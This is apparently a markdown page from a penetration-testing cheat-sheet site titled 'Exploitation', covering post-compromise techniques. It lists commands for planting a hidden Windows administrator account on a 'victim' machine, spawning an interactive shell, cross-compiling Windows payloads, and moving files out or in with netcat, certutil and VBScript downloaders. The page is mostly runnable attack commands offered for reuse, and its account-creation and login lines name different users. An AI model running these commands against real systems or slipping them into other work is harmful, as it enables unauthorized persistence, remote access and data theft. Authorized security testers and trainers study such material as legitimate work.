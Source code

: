 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

- SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Kali
nc -nv $RHOST $RPORT < in.file
```

- exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe
```
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```